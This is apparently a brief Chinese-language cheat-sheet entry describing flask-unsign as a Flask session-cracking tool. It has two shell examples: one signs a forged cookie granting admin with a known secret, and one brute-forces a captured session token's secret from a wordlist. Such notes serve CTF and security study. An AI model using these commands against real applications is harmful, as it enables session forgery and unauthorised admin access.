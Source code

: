 - # 介绍
	- flask session破解软件
- # 示例
	- ```shell
	  flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"
	  ```
	- ```shell
	  flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64
	  ```